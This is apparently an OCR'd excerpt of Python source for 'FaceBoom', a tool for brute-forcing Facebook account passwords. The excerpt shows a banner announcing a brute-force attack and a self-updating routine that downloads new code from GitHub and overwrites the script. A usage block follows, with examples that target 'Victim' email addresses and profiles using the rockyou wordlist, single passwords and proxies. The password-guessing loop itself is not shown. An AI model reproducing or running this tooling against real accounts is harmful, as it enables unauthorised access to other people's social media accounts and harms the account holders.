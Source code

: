         if not single_passwd:
            print(gr+"""\
================================================="""+wi+"""
[~] """+yl+"""Brute"""+rd+""" ForceATTACK: """+gr+"""Enabled """+wi+"""[~]"""+gr+"""
=================================================\n"""+wi)
        else:print("\n")


    @staticmethod
    def updateFaceBoom():
        if not os.path.isfile(versionPath):
             errMsg("Unable to check for updates: please re-clone the script to fix this problem")
             sys.exit(1)
        write("[~] Checking for updates...\n")
        conn = httplib.HTTPSConnection("raw.githubusercontent.com")
        conn.request("GET", "/Oseid/FaceBoom/master/core/version.txt")
        repoVersion = conn.getresponse().read().strip().decode()
        with open(versionPath) as vf:
            currentVersion = vf.read().strip()
        if repoVersion == currentVersion:write("  [*] The script is up to date!\n")
        else:
                print("  [+] An update has been found ::: Updating... ")
                conn.request("GET", "/Oseid/FaceBoom/master/faceboom.py")
                newCode = conn.getresponse().read().strip().decode()
                with open("faceboom.py", "w") as  faceBoomScript:
                   faceBoomScript.write(newCode)
                with open(versionPath, "w") as ver:
                     ver.write(repoVersion)
                write("  [+] Successfully updated :)\n")

parse = optparse.OptionParser(wi+"""
Usage: python ./faceboom.py [OPTIONS...]
-------------
OPTIONS:
       |
    |--------
    | -t <target email> [OR] <FACEBOOK ID>    ::> Specify target Email [OR] Target Profile ID
    |--------
    | -w <wordlist Path>                      ::> Specify Wordlist File Path
    |--------
    | -s <single password>                    ::> Specify Single Password To Check
    |--------
    | -p <Proxy IP:PORT>                      ::> Specify HTTP/S Proxy (Optional)
    |--------
    | -g <TARGET Facebook Profile URL>        ::> Specify Target Facebook Profile URL For Get HIS ID
    |--------
    | -u/--update                             ::> Update FaceBoom Script
-------------
Examples:
        |
     |--------
     | python faceboom.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python faceboom.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python faceboom.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python faceboom.py -t Victim@gmail.com -s 1234567
     |--------
     | python faceboom.py -g https://www.facebook.com/Victim_Profile
     |--------
""")
